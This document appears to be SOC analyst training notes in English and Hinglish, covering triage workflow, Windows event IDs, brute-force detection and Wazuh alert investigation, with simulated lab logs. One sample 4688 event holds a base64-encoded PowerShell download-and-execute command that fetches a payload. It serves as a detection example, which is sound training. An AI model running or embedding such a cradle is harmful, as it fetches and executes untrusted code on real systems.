# Complete SOC Training Notes

---

## DAY 1: SOC FUNDAMENTALS & MONITORING

---

# SOC FUNDAMENTALS & L1 ANALYST WORKFLOW

1.1 What is a SOC?
Layer 1: Beginner Explanation
A Security Operations Center (SOC) is a team of cybersecurity professionals who monitor, detect, investigate, and respond to cyber threats 24/7. Think of it as the nerve center of an organization's security—where all the alarms are monitored and incidents are managed.

Hinglish: SOC ek team hai jo continuously organization ke systems ko monitor karti hai, attacks detect karti hai, aur unka response handle karti hai. Jaise ek CCTV control room, lekin cyber security ke liye.

Layer 2: Technical Explanation
A SOC is a centralized function that combines:

People – Analysts with specialized security skills

Processes – Standardized procedures for detection and response

Technology – Tools like SIEM, EDR, and threat intelligence platforms

The SOC's mission is to detect, analyze, and respond to cybersecurity incidents using a combination of technology and human analysis.

Layer 3: SOC Analyst Perspective
"As a SOC analyst, I am responsible for monitoring security alerts, investigating suspicious activity, and escalating confirmed incidents. Every day, I work with SIEM dashboards, review logs, and make decisions about whether an alert represents a real threat or a false positive."

1.2 Why Organizations Need SOCs
Organizations need SOCs because:

Threats are constant – Attacks happen 24/7, not just during business hours

Alert volume is high – A typical SOC receives thousands of alerts daily

Speed matters – The faster an incident is detected, the less damage occurs

Expertise is specialized – Not every IT professional has security skills

Regulatory requirements – Many regulations require security monitoring

1.3 SOC Architecture
SOC People
text
┌─────────────────────────────────────────────────────┐
│                   SOC MANAGER                       │
│         (Strategy, Reporting, Team Management)      │
├─────────────────────────────────────────────────────┤
│                                                    │
│  ┌─────────────┐  ┌─────────────┐  ┌─────────────┐│
│  │   L3 ANALYST │  │ THREAT      │  │  INCIDENT   ││
│  │  (Advanced   │  │  HUNTER     │  │  RESPONDER  ││
│  │  Investigation)│  │             │  │             ││
│  └─────────────┘  └─────────────┘  └─────────────┘│
│                                                    │
│  ┌─────────────────────────────────────────────┐   │
│  │              L2 ANALYST                      │   │
│  │         (Deep Investigation)                │   │
│  └─────────────────────────────────────────────┘   │
│                                                    │
│  ┌─────────────────────────────────────────────┐   │
│  │              L1 ANALYST                      │   │
│  │         (Alert Triage & Escalation)         │   │
│  └─────────────────────────────────────────────┘   │
│                                                    │
└─────────────────────────────────────────────────────┘
SOC Process
text
    Monitor ──→ Detect ──→ Investigate ──→ Respond ──→ Improve
        ↑                                            │
        └────────────────────────────────────────────┘
SOC Technology
Technology	Purpose
SIEM	Centralized log collection, correlation, alerting
EDR	Endpoint detection and response
Threat Intelligence	Context about threats and adversaries
Case Management	Track investigations from start to finish
SOAR	Automation of response actions
1.4 SOC Roles in Detail
L1 Analyst (Tier 1)
Primary responsibility: Alert triage and initial investigation

Typical tasks: Review alerts, validate whether they are real threats, escalate confirmed incidents

Key skills: Understanding alerts, basic log analysis, knowing when to escalate

Decision: Is this a false positive or does it need deeper investigation?

L2 Analyst (Tier 2)
Primary responsibility: Deep investigation of escalated incidents

Typical tasks: Correlate multiple alerts, perform threat hunting, use advanced tools

Key skills: Advanced log analysis, understanding attacker techniques, IOC analysis

Decision: Is this a confirmed incident? What is the scope?

L3 Analyst (Tier 3)
Primary responsibility: Advanced incident response and threat hunting

Typical tasks: Complex investigations, malware analysis, containment guidance

Key skills: Deep technical expertise, forensics, reverse engineering

Decision: How do we contain and eradicate this threat?

SOC Manager
Primary responsibility: Team management and strategic direction

Typical tasks: Reporting to leadership, resource allocation, process improvement

Key skills: Leadership, communication, strategic thinking

Threat Hunter
Primary responsibility: Proactive search for hidden threats

Typical tasks: Develop hypotheses, search for evidence of compromise

Key skills: Advanced analytics, curiosity, creativity

Incident Responder
Primary responsibility: Hands-on containment and eradication

Typical tasks: Execute containment procedures, collect evidence, coordinate response

Key skills: Technical expertise, calm under pressure, communication

1.5 L1 Workflow
```mermaid
graph TD
    A["┌─────────────┐"]
    A --> B["│   ALERT     │"]
    B --> C["└──────┬──────┘"]
    C --> D["┌─────────────┐"]
    D --> E["│ VALIDATION  │  ← Is this a real security event?"]
    E --> F["└──────┬──────┘"]
    F --> G["┌─────────────┐"]
    G --> H["│   TRIAGE    │  ← What is the severity? What is the priority?"]
    H --> I["└──────┬──────┘"]
    I --> J["┌─────────────┐"]
    J --> K["│   CONTEXT   │  ← Gather additional information"]
    K --> L["│  GATHERING  │"]
    L --> M["└──────┬──────┘"]
    M --> N["┌─────────────┐"]
    N --> O["│INVESTIGATION│  ← Dig deeper into the event"]
    O --> P["└──────┬──────┘"]
    P --> Q["┌─────────────┐"]
    Q --> R["│  SEVERITY   │  ← Assign final severity"]
    R --> S["│ ASSESSMENT  │"]
    S --> T["└──────┬──────┘"]
    T --> U["┌─────────────┐"]
    U --> V["│ ESCALATION  │  ← Escalate if needed"]
    V --> W["└──────┬──────┘"]
    W --> X["┌─────────────┐"]
    X --> Y["│DOCUMENTATION│  ← Record everything"]
    Y --> Z["└─────────────┘"]
```
Stage 1: Alert
An alert is generated by a security tool (SIEM, EDR, IDS) when it detects something that may be suspicious. Alerts can come from:

SIEM correlation rules

EDR detections

IDS/IPS signatures

Threat intelligence matches

Stage 2: Validation
The L1 analyst must validate the alert—determine whether it represents a genuine security event or a false positive.

Key questions:

Is the alert based on accurate data?

Could this be normal behavior?

Does the alert have enough context to investigate?

Stage 3: Triage
Triage is the process of prioritizing alerts based on severity, impact, and confidence.

Key questions:

How severe is this alert? (Critical / High / Medium / Low)

What is the potential business impact?

How confident are we that this is a real threat?

Stage 4: Context Gathering
Before diving deep, gather additional context:

What user accounts are involved?

What systems are affected?

What is the source IP address?

What time did this occur?

Are there related alerts?

Stage 5: Investigation
Dig deeper into the alert:

Review associated logs

Check for related events

Look for patterns

Extract Indicators of Compromise (IOCs)

Stage 6: Severity Assessment
Assign a final severity level:

Severity	Description
Critical	Active breach, data loss occurring, immediate response required
High	Confirmed incident with significant impact
Medium	Suspicious activity requiring further investigation
Low	Minor anomaly, likely benign
Stage 7: Escalation
If the incident is confirmed or requires expertise beyond L1:

Escalate to L2 for deeper investigation

Escalate to incident response team if active breach

Escalate to management for critical incidents

Stage 8: Documentation
Record everything:

What was the alert?

What was investigated?

What was found?

What actions were taken?

What is the conclusion?

1.6 Important Concepts
Alert vs Event vs Incident
Term	Definition	Example
Event	Any observable occurrence in a system	A user logs in, a file is created
Alert	A notification that an event may be suspicious	"Multiple failed logins detected"
Incident	A confirmed security event that requires response	"Brute force attack detected and confirmed"
Detection Types
Term	Definition
True Positive	An alert that correctly identifies a real threat
False Positive	An alert that incorrectly identifies benign activity as malicious
False Negative	A real threat that was not detected
True Negative	Benign activity that was correctly not flagged
Severity, Priority, and Confidence
Term	Definition
Severity	The potential damage an incident could cause
Priority	The urgency of response (influenced by severity + business impact)
Confidence	How certain we are that the alert represents a real threat
Hinglish: Severity = kitna nuksan ho sakta hai. Priority = kitni jaldi respond karna hai. Confidence = kitna sure hain ki yeh real attack hai.

PRACTICAL LAB 1: Beginner SOC Alert Triage
Lab Title: "Is This a Real Attack?"
Objective
Learn how to perform basic SOC alert triage by analyzing a sample alert and determining whether it requires escalation.

Scenario
You are an L1 SOC analyst at PIET [Panipat Institute of Engineering & Technology]. You receive the following alert from your SIEM:

text
ALERT ID: SOC-2024-001
TIMESTAMP: 2024-11-15 09:23:45 UTC
RULE: "Multiple Failed Logins - Possible Brute Force"
SEVERITY: Medium
SOURCE IP: 203.0.113.45
TARGET USER: jsmith
TARGET HOST: WS-FINANCE-01
EVENT COUNT: 15 failed logins in 5 minutes
Difficulty
Beginner

Estimated Time
20 minutes

Prerequisites
Understanding of basic alert terminology

Access to this lab document

Step-by-Step Procedure
Step 1: Read the Alert

What is the alert telling you?

What is the source IP?

What user account is targeted?

What system is targeted?

Step 2: Assess the Context

Questions to ask:

Is 15 failed logins in 5 minutes normal for this user?

What time of day is this? (9:23 AM)

Is jsmith a high-privilege user?

Step 3: Check for Additional Context

Assume the SIEM provides this additional information:

jsmith is a finance department employee

jsmith typically logs in from 192.168.1.0/24 (internal network)

203.0.113.45 is an external IP address

This is jsmith's first login attempt of the day

There are no successful logins after the failures

Step 4: Make Your Decision

Decision	Criteria
False Positive	Activity is normal or expected
Benign	Activity is unusual but not malicious
Suspicious	Activity is unusual and potentially malicious
Confirmed Incident	Activity is confirmed malicious
Step 5: Determine Severity

Severity	Criteria
Low	No impact, no evidence of compromise
Medium	Potential threat, requires investigation
High	Likely compromise, requires immediate response
Critical	Active breach in progress
Step 6: Escalation Decision

Should this be escalated to L2?

Should incident response be activated?

Expected Observations
15 failed logins in 5 minutes is unusual for normal user behavior

The source IP is external (203.0.113.45), which is suspicious

jsmith is a finance user, which may indicate targeted attack

No successful login after failures—attack may have been unsuccessful

Analyst Decision
Classification: Suspicious

Severity: Medium

Confidence: Moderate (70%)

Reasoning:

Multiple failed logins from an external IP address targeting a finance user

The pattern is consistent with a brute-force or password spraying attack

However, there is no evidence of successful compromise yet

Escalation Decision
Escalate to L2: Yes

Reason: L2 can investigate the source IP further, check for similar activity against other users, and correlate with other alerts.

Final Analyst Note
text
I have reviewed the alert for multiple failed logins targeting user jsmith
from external IP 203.0.113.45. The pattern is suspicious and consistent
with a brute-force attempt. There is no evidence of successful compromise
at this time. I recommend escalating to L2 for further investigation of
the source IP and to check for similar activity against other finance
department users.

- Analyst: [Your Name]
- Date: 2024-11-15
Key Concepts
Alerts require validation before escalation

Context is essential for accurate triage

Not every alert is an incident

Documentation is critical

Common Mistakes
Escalating every alert – Learn to distinguish real threats from noise

Not documenting findings – Always record your investigation

Ignoring context – An alert without context is meaningless

Making assumptions – Verify before concluding

SOC Analyst Checklist
text
[✓] Alert understood
[✓] Alert validated
[✓] User identified
[✓] Host identified
[✓] Source IP identified
[✓] Context gathered
[✓] Severity assessed
[✓] Escalation decision made
[✓] Documentation completed
Interview Questions
Basic:

What is the difference between an event and an alert?

What does an L1 SOC analyst do?

What is a false positive?

Intermediate:

How would you triage an alert with limited information?

What factors determine whether an alert should be escalated?

Scenario:

You receive an alert about a user logging in from an unusual location. How do you investigate?


---

# WINDOWS SECURITY EVENT ANALYSIS

2.1 What Are Windows Event Logs?
Layer 1: Beginner Explanation
Windows keeps a diary of everything that happens on a computer. Every time a user logs in, a file is accessed, or a program runs, Windows writes an entry in this diary. These entries are called event logs.

Hinglish: Windows har activity ka record rakhta hai—jaise koi user login kare, file open kare, ya program run kare. Yeh records "event logs" kehlate hain.

Layer 2: Technical Explanation
Windows Event Logs are structured records of system, security, and application events. They are stored in the %SystemRoot%\System32\winevt\Logs directory and can be viewed using Event Viewer.

Layer 3: SOC Analyst Perspective
"As a SOC analyst, Windows Event Logs are one of my most important data sources. They tell me who logged in, when, from where, what they did, and whether anything suspicious occurred. Without these logs, I'm flying blind."

2.2 Event Viewer
Accessing Event Viewer
Press Windows + R

Type eventvwr.msc

Press Enter

Key Log Types
Log Type	Contents
Application	Events from applications and programs
Security	Security-related events (logins, access, etc.)
System	Windows system events (driver issues, etc.)
Setup	Installation events
Forwarded Events	Events collected from other systems
The Security Log
The Security log is the most important for SOC analysts. It contains:

Authentication events (logins, logouts)

Account management (user creation, deletion)

Object access (file access, registry access)

Process creation

Policy changes

2.3 Important Windows Security Event IDs
Complete Event ID Reference Table
Event ID	Name	Why It Matters
4624	An account was successfully logged on	Successful login—normal activity, but can indicate compromise
4625	An account failed to log on	Failed login—can indicate brute force or password spraying
4634	An account was logged off	Logout—helps track session duration
4648	A logon was attempted using explicit credentials	Credential use—may indicate RunAs or lateral movement
4672	Special privileges assigned to new logon	Privileged account use—monitor for administrative activity
4688	A new process has been created	Process execution—critical for detecting malware
4698	A scheduled task was created	Persistence mechanism—attackers create scheduled tasks
4720	A user account was created	Account creation—monitor for unauthorized accounts
4728	A user was added to a privileged group	Privilege escalation—monitor for admin group additions
4732	A user was added to a security-enabled local group	Group membership changes
4740	An account was locked out	Account lockout—may indicate brute force success
1102	The audit log was cleared	Log clearing—attackers clear logs to hide activity
Event ID 4624: Successful Logon
Name: An account was successfully logged on

Why It Matters:
Successful logins are normal, but attackers who have stolen credentials will also generate 4624 events. The key is distinguishing legitimate logins from malicious ones.

Important Fields:

Field	What It Tells You
Account Name	Which user account logged in
Workstation Name	Which computer the login came from
Source Network Address	IP address of the source
Logon Type	How the logon occurred (see below)
Logon ID	Unique identifier for this session
Logon Types:

Type	Name	Description
2	Interactive	Local keyboard/mouse logon
3	Network	Network share access (SMB)
4	Batch	Scheduled task
5	Service	Windows service startup
7	Unlock	Screen unlock
8	NetworkCleartext	Network logon with clear text credentials
9	NewCredentials	RunAs with different credentials
10	RemoteInteractive	Remote Desktop (RDP)
SOC Use Case:
Monitor for:

Logins from unexpected source IPs

Logins at unusual times

Logins with Logon Type 10 from unexpected locations

Logins using disabled accounts

Suspicious Example:

text
Event ID: 4688
New Process Name: C:\Users\jsmith\AppData\Local\Temp\payload.exe
Creator Process Name: C:\Windows\System32\powershell.exe
Command Line: powershell -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxAC8AcABhAHkAbABvAGEAZAAuAGUAeABlACcAKQA=
Why suspicious? PowerShell downloading and executing a payload from a suspicious IP.

PRACTICAL LAB 2: Windows Event Log Investigation
Lab Title: "Who Logged In?"
Objective
Learn to navigate Windows Event Viewer, interpret security events, and identify suspicious activity.

Scenario
You are an L1 SOC analyst at PIET [Panipat Institute of Engineering & Technology]. A user has reported that their account seems to have been accessed without their knowledge. You need to investigate Windows security logs to determine what happened.

Difficulty
Beginner

Estimated Time
30 minutes

Prerequisites
Access to a Windows machine (physical or VM)

Event Viewer access

Lab Environment
Windows 10/11 or Windows Server

Event Viewer

Simulated log data (provided below)

Step-by-Step Procedure
Step 1: Open Event Viewer

Press Windows + R

Type eventvwr.msc

Click OK

Step 2: Navigate to Security Log

In the left panel, expand Windows Logs

Click Security

Step 3: Understand the Columns

Column	Content
Level	Information, Warning, Error
Date and Time	When the event occurred
Source	Which component logged the event
Event ID	The event identifier
Task Category	Category of the event
Step 4: Filter for Specific Events

Click Filter Current Log in the right panel

In the "Event IDs" field, enter: 4624,4625,4688

Click OK

Step 5: Analyze Sample Events

Review these simulated events:

Event 1:

text
Event ID: 4624
Date: 2024-11-15
Time: 09:05:00
Account Name: jsmith
Workstation Name: WS-FINANCE-01
Source Network Address: 192.168.1.100
Logon Type: 2
Event 2:

text
Event ID: 4625
Date: 2024-11-15
Time: 09:23:00
Account Name: jsmith
Source Network Address: 203.0.113.45
Failure Reason: Unknown user name or bad password
Event 3:

text
Event ID: 4625
Date: 2024-11-15
Time: 09:24:00
Account Name: jsmith
Source Network Address: 203.0.113.45
Failure Reason: Unknown user name or bad password
(15 more similar failures from same IP)

Event 4:

text
Event ID: 4624
Date: 2024-11-15
Time: 09:28:15
Account Name: jsmith
Workstation Name: WS-FINANCE-01
Source Network Address: 192.168.1.100
Logon Type: 10
Investigation Questions
What is the normal login pattern for jsmith?

Expected answer: Logins from internal IP (192.168.1.100) during business hours with Logon Type 2

What is suspicious about the failed login attempts?

Expected answer: 15+ failures from external IP (203.0.113.45) targeting jsmith

What happened at 09:28:15?

Expected answer: A successful login from internal IP with Logon Type 10 (RDP)

Is this suspicious? Why?

Expected answer: Yes—after multiple failures from external IP, there is a successful login from internal IP. This could indicate:

The attacker successfully guessed the password from a different IP

The attacker compromised the internal network

The legitimate user logged in from their machine (need more investigation)

Expected Findings
Failed login attempts from external IP targeting jsmith

Successful login from internal IP with RDP logon type

Need to verify if the successful login was the legitimate user

Conclusion
This investigation reveals a pattern consistent with a brute-force attack followed by a successful login. The case requires escalation to L2 to determine if the successful login was the legitimate user or an attacker.

How to Perform the Same Investigation in a SIEM
In a SIEM (like Wazuh), you would:

Search for event_id: 4624 OR event_id: 4625

Filter by user: jsmith

Sort by timestamp

Look for the pattern of failures followed by success

Check source IP addresses for anomalies

Key Concepts
Event Viewer is the primary tool for Windows log analysis

Event ID 4624 = successful login

Event ID 4625 = failed login

Logon Type indicates how the login occurred

Patterns (failures followed by success) are critical for detection

Common Mistakes
Ignoring logon type – A login from an external IP with Logon Type 10 is very different from Logon Type 2

Not correlating events – Single events mean little; patterns tell the story

Forgetting time zones – Always normalize timestamps to UTC


---

# AUTHENTICATION & BRUTE-FORCE DETECTION

3.1 What is Authentication?
Layer 1: Beginner Explanation
Authentication is the process of verifying who a user is. When you enter a username and password to log into a computer, you are authenticating.

Hinglish: Authentication ka matlab hai user ki identity verify karna—jaise username/password daal ke login karna.

Layer 2: Technical Explanation
Authentication is the process of validating user credentials (username/password, certificate, biometric) against an identity system (like Active Directory). Successful authentication results in a logon session and generates a 4624 event.

Layer 3: SOC Analyst Perspective
"Authentication events are the bread and butter of SOC analysis. Every login creates an event—successful or failed. By analyzing these events, we can detect attacks like brute force, password spraying, and credential theft."

3.2 Types of Credential Attacks
Brute Force
Aspect	Description
What	Trying many passwords against a single account
Goal	Guess the correct password
Signature	Many failures for the same account
Detection	High volume of 4625 events for same account
Example:

text
Credentials from Breach: jsmith/P@ssw0rd123, bjones/Summer2023, ...
Testing against corporate accounts
Key Differences
Attack Type	Many Passwords	Many Accounts	Single Account
Brute Force	✓ (per account)	✗	✓
Password Spraying	✗ (same password)	✓	✗
Credential Stuffing	✓ (from breach)	✓	✗
3.3 Detection Logic
Brute Force Detection

3.4 Threshold Concepts
Detection thresholds depend on:

Factor	Consideration
Organization size	Larger organizations have more logins
Time of day	More logins during business hours
User role	Some users log in more frequently
Normal baseline	What is "normal" for this user?
Example Thresholds:

Scenario	Threshold
Brute force	10+ failures in 5 minutes
Password spraying	Failures for 10+ accounts from same IP in 1 hour
Unusual login	Login from IP not seen in 30 days
PRACTICAL LAB 3: Brute-Force Detection
Lab Title: "Catch the Brute Forcer"
Objective
Identify a brute-force attack by analyzing authentication logs and determine whether the attack was successful.

Scenario
PIET [Panipat Institute of Engineering & Technology]'s SIEM has generated an alert for "Multiple Failed Logins." You need to investigate the logs to determine if a brute-force attack occurred and whether any accounts were compromised.

Difficulty
Beginner

Estimated Time
25 minutes

Dataset
text
[2024-11-15 09:23:01] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:05] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:10] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:15] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:20] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:25] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:30] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:35] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:40] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:45] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:50] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:23:55] 4625 | jsmith | 203.0.113.45 | 2 | Unknown user name or bad password
[2024-11-15 09:28:15] 4624 | jsmith | 192.168.1.100 | 10 | N/A
[2024-11-15 09:30:00] 4688 | jsmith | C:\Windows\System32\powershell.exe | N/A | N/A
[2024-11-15 09:30:15] 4688 | jsmith | C:\Users\jsmith\Downloads\payload.exe | N/A | N/A
Step-by-Step Procedure
Step 1: Count the Failures

Q: How many failed logins occurred for jsmith?

Expected answer: 12 failures from 09:23:01 to 09:23:55

Step 2: Identify the Source IP

Q: What is the source IP of the failures?

Expected answer: 203.0.113.45

Step 3: Identify the Attack Type

Q: Is this brute force or password spraying?

Expected answer: Brute force—all attempts target the same account (jsmith)

Step 4: Check for Successful Login

Q: Was there a successful login after the failures?

Expected answer: Yes—at 09:28:15, jsmith logged in successfully from 192.168.1.100

Step 5: Analyze the Successful Login

Q: What is suspicious about the successful login?

Expected answer:

Logon Type 10 = Remote Desktop (RDP)

Source IP is internal (192.168.1.100), not the attacker IP

This could be the legitimate user logging in, or an attacker who compromised an internal system

Step 6: Check for Post-Login Activity

Q: What happened after the successful login?

Expected answer:

PowerShell was launched (4688)

A suspicious executable (payload.exe) was run from Downloads

Step 7: Make Your Assessment

Factor	Assessment
Attack type	Brute force
Success	Likely—successful login occurred
Post-compromise activity	Suspicious processes executed
Severity	High
Expected Output
Investigation Summary:

12 failed login attempts for jsmith from IP 203.0.113.45

Pattern consistent with brute-force attack

Successful login at 09:28:15 from internal IP with RDP

PowerShell and suspicious executable executed after login

Highly likely that account was compromised

Escalation:

Escalate to L2 for immediate response

Disable jsmith account

Investigate payload.exe

How L1 Should Escalate
When escalating this incident, provide:

Alert summary – What triggered the alert

Evidence – Log excerpts showing failures and success

Analysis – Why this is suspicious

Recommendation – What actions should be taken

Severity – High

Key Concepts
Brute force = many failures, same account

Password spraying = few failures, many accounts

Success after failures = likely compromised

Post-login activity = indicator of attacker actions

Common Mistakes
Not checking for successful logins – Failures alone are not enough

Ignoring post-login activity – What happened after the login is critical

Not considering logon type – RDP (Type 10) is more suspicious than interactive (Type 2)


---

# SIEM CONCEPTS & WAZUH ALERT INVESTIGATION

4.1 What is SIEM?
Layer 1: Beginner Explanation
A SIEM (Security Information and Event Management) is like a central security dashboard that collects logs from all your systems, analyzes them for threats, and alerts you when something suspicious happens.

Hinglish: SIEM ek central system hai jo saare logs collect karta hai, unhe analyze karta hai, aur suspicious activity detect karta hai.

Layer 2: Technical Explanation
SIEM combines two functions:

SIM (Security Information Management): Long-term storage and analysis of log data

SEM (Security Event Management): Real-time monitoring and alerting

Key SIEM Capabilities
Capability	Description
Log Collection	Aggregates logs from multiple sources
Parsing	Normalizes different log formats
Storage	Retains logs for investigation and compliance
Search	Enables analysts to find relevant events
Detection	Applies rules to identify suspicious activity
Correlation	Links related events across sources
Alerting	Notifies analysts of potential threats
Visualization	Presents data in dashboards
SIEM Architecture
text
┌─────────────────────────────────────────────────────────────┐
│                     DATA SOURCES                            │
├──────────┬──────────┬──────────┬──────────┬────────────────┤
│  Windows │  Linux   │ Firewall │  IDS/IPS │  Applications  │
│  Servers │  Servers │          │         │                │
└────┬─────┴────┬─────┴────┬─────┴────┬────┴────────────────┘
     │          │          │          │
     ▼          ▼          ▼          ▼
┌─────────────────────────────────────────────────────────────┐
│                    LOG COLLECTOR                            │
│              (Collects and forwards logs)                   │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    SIEM ENGINE                              │
│         (Parses, normalizes, correlates, alerts)            │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    STORAGE & INDEX                          │
│              (Stores logs for search)                       │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    DASHBOARD                                │
│              (Visualization & investigation)                │
└─────────────────────────────────────────────────────────────┘
4.2 Wazuh Overview
What is Wazuh?
Wazuh is an open-source SIEM and XDR platform that provides security monitoring, threat detection, and incident response capabilities.

Wazuh Architecture
Wazuh follows an agent-server-storage-visualization model:

text
┌─────────────────────────────────────────────────────────────┐
│                     WAZUH AGENTS                            │
│        (Installed on monitored endpoints)                   │
│  • Collect logs, file changes, processes                   │
│  • Monitor system integrity                                 │
│  • Detect vulnerabilities                                   │
└────────────────────────┬────────────────────────────────────┘
                         ▼ (Encrypted connection)
┌─────────────────────────────────────────────────────────────┐
│                    WAZUH MANAGER                            │
│          (Central server for analysis)                      │
│  • Receive and analyze agent data                           │
│  • Apply rules and decoders                                 │
│  • Generate alerts                                          │
│  • Store data in indexer[reference:20]                       │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    WAZUH INDEXER                            │
│              (OpenSearch/Elasticsearch)                     │
│  • Index and store alerts                                   │
│  • Enable fast searching                                    │
└────────────────────────┬────────────────────────────────────┘
                         ▼
┌─────────────────────────────────────────────────────────────┐
│                    WAZUH DASHBOARD                          │
│              (OpenSearch Dashboards/Kibana)                 │
│  • Visualize alerts                                         │
│  • Enable investigation[reference:21]                        │
└─────────────────────────────────────────────────────────────┘
Key Wazuh Components
Component	Function
Agent	Runs on monitored endpoints, collects data
Manager	Central server that analyzes data
Indexer	Stores and indexes alerts
Dashboard	Web interface for visualization and investigation
Manager Daemons (Wazuh v5.0.0+)
Daemon	Function
wazuh-manager-remoted	Encrypted agent communication
wazuh-manager-analysisd	Event analysis, decoding, rule matching
wazuh-manager-db	SQLite database management
wazuh-manager-apid	RESTful API
wazuh-manager-authd	Agent registration and key distribution
wazuh-manager-modulesd	Vulnerability scans, SCA
wazuh-manager-clusterd	Cluster synchronization
Agent Daemons
Daemon	Function
wazuh-agentd	Main agent process
wazuh-logcollector	Collects logs
wazuh-syscheckd	File Integrity Monitoring (FIM)
wazuh-modulesd	System inventory, SCA
wazuh-execd	Active response execution
Wazuh Capabilities
Capability	Description
Log Analysis	Collects and analyzes logs from multiple sources
File Integrity Monitoring	Detects file changes on monitored systems
Vulnerability Detection	Identifies vulnerabilities on endpoints
Malware Detection	Detects malicious activity
MITRE ATT&CK Mapping	Maps alerts to ATT&CK framework
Active Response	Automates response actions
4.3 Wazuh Alert Investigation
Understanding Wazuh Alerts
Wazuh alerts contain rich contextual information:

Field	Description
Rule	Rule ID, level, description, groups
Agent	Agent ID, name, IP address, OS
Data	Source logs and system information
MITRE ATT&CK	Mapped tactics and techniques
GeoIP	Geographic location (for network events)
Severity Levels
Level	Severity	Response
0-3	Informational	Monitor
4-7	Low-Medium	Review
8-11	High	Investigate
12-15	Critical	Immediate action
Investigation Workflow in Wazuh
Identify the Alert

Navigate to Threat Hunting dashboard

Filter by severity level >= 8

Review recent high-severity events

Gather Context

Click on alert to view details

Note: Timestamp, agent, source IP, user accounts

Expand Investigation

Search for related events by:

Agent: agent.id:"001" AND timestamp:[now-1h TO now]

Source IP: data.srcip:"192.168.1.100"

User: data.dstuser:"suspicious-account"

Check related modules: FIM, vulnerability detection, MITRE

Analyze Patterns

Look for: volume, timing, sequence, scope, geography

Document Findings

Affected systems, accounts, timeline, impact

Wazuh Dashboard Navigation
The Wazuh Dashboard provides:

Overview of security incidents and activities

Connected/disconnected agent summaries

Alert severity levels (last 24 hours)

Prebuilt dashboards for endpoint security, threat intelligence, security operations

PRACTICAL LAB 4: Wazuh Environment and Alert Investigation
Lab A: Wazuh Environment Overview
Objective: Understand the Wazuh environment and navigate the dashboard.

Environment: Wazuh instance (provided by instructor or lab environment)

Procedure:

Access the Wazuh Dashboard URL

Log in with provided credentials

Observe the main dashboard:

Total alerts

Connected agents

Severity distribution

Navigate to Threat Hunting module

Review the Alerts Overview section

Lab B: Alert Investigation
Objective: Investigate a specific alert in Wazuh.

Scenario: A high-severity alert has been triggered for suspicious authentication activity.

Procedure:

Navigate to Threat Hunting dashboard

Filter by severity level >= 8

Identify an alert with description containing "authentication" or "login"

Click on the alert to view details

Analyze the Alert:

Field	Information to Extract
Timestamp	When did this occur?
Agent	Which system is affected?
Source IP	Where did the activity come from?
User Account	Which account is involved?
Rule Description	What triggered the alert?
MITRE Mapping	What tactics/techniques are indicated?
Expand the Investigation:

Search for related events from the same agent:

text
agent.id:"[AGENT_ID]" AND timestamp:[now-24h TO now]
Search for related events from the same source IP:

text
data.srcip:"[SOURCE_IP]"
Check if there are FIM events on the affected system

Check vulnerability status

Document Findings:

Create a summary including:

Affected systems and accounts

Timeline of events

Potential impact

Recommended actions

Lab C: Searching Events in Wazuh
Objective: Learn to search for specific events in Wazuh.

Common Search Queries:

Query	Purpose
rule.level:>=8	High severity alerts
data.win.eventdata.userName:"jsmith"	Events for specific user
data.srcip:"203.0.113.45"	Events from specific IP
agent.name:"WS-FINANCE-01"	Events for specific system
rule.groups:"authentication_failed"	Failed authentication events
Procedure:

Navigate to Security Analytics section

Enter a search query

Review results

Refine query based on findings

Troubleshooting Common Issues
Issue	Solution
No results	Check time range, verify query syntax
Too many results	Add filters, narrow time range
Agent not showing	Verify agent is connected
UI differs from documentation	Check Wazuh version, UI may vary
Learning Outcomes
After completing these labs, you should be able to:

Navigate the Wazuh Dashboard

Identify high-severity alerts

Investigate alerts using contextual information

Search for related events

Document investigation findings


---

# IOC INVESTIGATION & THREAT INTELLIGENCE

5.1 What is an IOC?
Layer 1: Beginner Explanation
An Indicator of Compromise (IOC) is a piece of evidence that suggests a system may have been compromised. Think of it like a fingerprint left behind by an attacker.

